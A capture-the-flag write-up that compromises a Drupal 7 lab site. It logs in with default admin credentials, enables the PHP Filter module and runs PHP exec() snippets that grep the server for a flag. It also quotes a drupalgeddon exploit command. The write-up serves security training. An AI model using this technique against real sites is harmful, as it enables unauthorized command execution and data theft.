 # Our new site! (exploit) (author: snn)

## Description

```shell
We already started thinking about 2024! Our test site is already up and running.

Please help us and contribute!

username: user password: woAheZiUWZPW9wEYKYG
```

## Task analysis & solution

A docker instance is provided by the CyberXmas infrastructure with an address and a port. That instance is being spun up for a limited amount of time, until it needs to be reverted again. Let's connect to it with SSH:

```shell
└ $ ssh user@10.10.8.61 -p 34155
kex_exchange_identification: Connection closed by remote host
└ $ ssh user@10.10.8.61 -p 34155 -v
OpenSSH_for_Windows_8.1p1, LibreSSL 3.0.2
debug1: Connecting to 10.10.8.61 [10.10.8.61] port 34155.
debug1: Connection established.
debug1: identity file C:\\Users\\snn/.ssh/id_rsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_rsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_dsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_dsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ecdsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ecdsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ed25519 type 3
debug1: identity file C:\\Users\\snn/.ssh/id_ed25519-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_xmss type -1
debug1: identity file C:\\Users\\snn/.ssh/id_xmss-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_for_Windows_8.1
debug1: kex_exchange_identification: banner line 0: HTTP/1.1 400 Bad Request
debug1: kex_exchange_identification: banner line 1: Date: Tue, 26 Dec 2023 21:21:15 GMT
debug1: kex_exchange_identification: banner line 2: Server: Apache/2.4.10 (Debian)
debug1: kex_exchange_identification: banner line 3: Content-Length: 302
debug1: kex_exchange_identification: banner line 4: Connection: close
debug1: kex_exchange_identification: banner line 5: Content-Type: text/html; charset=iso-8859-1
debug1: kex_exchange_identification: banner line 6:
debug1: kex_exchange_identification: banner line 7: <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
debug1: kex_exchange_identification: banner line 8: <html><head>
debug1: kex_exchange_identification: banner line 9: <title>400 Bad Request</title>
debug1: kex_exchange_identification: banner line 10: </head><body>
debug1: kex_exchange_identification: banner line 11: <h1>Bad Request</h1>
debug1: kex_exchange_identification: banner line 12: <p>Your browser sent a request that this server could not understand.<br />
debug1: kex_exchange_identification: banner line 13: </p>
debug1: kex_exchange_identification: banner line 14: <hr>
debug1: kex_exchange_identification: banner line 15: <address>Apache/2.4.10 (Debian) Server at 172.17.0.6 Port 80</address>
debug1: kex_exchange_identification: banner line 16: </body></html>
kex_exchange_identification: Connection closed by remote host
└ $
```
No useful results here, so I decided to abandon SSH for the time being.

Let's give it a try in a web browser:

![Alt text](1.png)

Good! As we can see we are in some page that was developed by 
`Drupal`

A quick search online provides the following information - `Drupal is a free and open-source web content management system written in PHP and distributed under the GNU General Public License. Wikipedia`

So we are in the CMS site and as the hint in the challenge sais - `Please help us and contribute!`

How about we try to find some more information about Drupal in home page's source...

```web
<meta name="Generator" content="Drupal 7 (http://drupal.org)">
```

From here we understand that we are dealing with Drupal 7.

Let's see whether we have a robots.txt file, for those pesky web crawlers at
http://10.10.8.61:34155/robots.txt (34155 was the port at the time)


```web
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html

User-agent: *
Crawl-delay: 10
# CSS, JS, Images
# Files
...
Disallow: /CHANGELOG.txt
...

```
We can see there's a diallowed CHANGELOG.txt file that we might be interested in:

```url
http://10.10.8.61:34155/CHANGELOG.txt
```

```web
Drupal 7.57, 2018-02-21
-----------------------
- Fixed security issues (multiple vulnerabilities). See SA-CORE-2018-001.

Drupal 7.56, 2017-06-21
-----------------------
- Fixed security issues (access bypass). See SA-CORE-2017-003.

Drupal 7.55, 2017-06-07
```

In the changelog, we can see the exact Drupal version - 7.57, released on 2018-02-21

A quick online search yielded quite a bit of possible Drupal exploits. I did try many of those, namely the Drupalgeddon ones with metasploit, but without success..

![Alt text](2.png)


Anyway... most of the articles were about remote code execution with a php module. However in our case php is not even installed. 

I quickly realized that I need a way to install PHP on the site and that meant I needed admin access. So I did a quick search online for "Drupal 7 admin explot", which yielded these two results:

![Alt text](3.png)

Since I knew that SQL is of no interest, I put more effort in the second result: 
[Drupal 7x exploitation](https://medium.com/@yasmeena_rezk/drupal-7-x-exploitation-7eb1c7cfa4dc)

I got really excited about this line here, which gave me some ideas:

```python
# python2.7  drupalgeddon.py -t <url> -u <username>-p <password>
python2.7  drupalgeddon.py -t http://drupal-qa.ex.com -u admin -p admin
```

Regardless of the fact that the article was about Drupal 7.30, I 
immediately decided to give it a try with admin/admin for access -> 

:voila:

![Alt text](4.png)

Silly me, I should've tried these first! Anyway, now for fun part:
1. Go to Modules
2. Enable PHP Filter
3. Save Configuration:

![Alt text](5.png)

Now go and add an article:
![Alt text](6.png)

When you click on preview button we can see that our command has executed some php code:
![Alt text](7.png)

It looks like we are in the /var/www/html folder, so why not search for a file containing the flag, which should start with ***MilestoneCTF***? I decided to start the search from /var/www

```code
<?php
// outputs the username that owns the running php/httpd process
// (on a system with the "whoami" executable in the path)
$output=null;
$retval=null;
exec('grep -Rnw "/var/www" -e "MilestoneCTF"', $output, $retval);
echo "Returned with status $retval and output:\n";
print_r($output);
?>
```

We have found a file **/var/www/html/sites/default/files/.ht.sqlite** that contains ***MilestoneCTF***:
![Alt text](8.png)

Let's put grep to work here:

```php
<?php
// outputs the username that owns the running php/httpd process
// (on a system with the "whoami" executable in the path)
$output=null;
$retval=null;

exec('strings /var/www/html/sites/default/files/.ht.sqlite | grep -m 1 -e "MilestoneCTF"', $output, $retval);
echo "Returned with status $retval and output:\n";
print_r($output);
?>
```
![Alt text](9.png)


> The flag was inside the sqlite database in plain text: ***MilestoneCTF{this-is-a-really-nice-flag}***
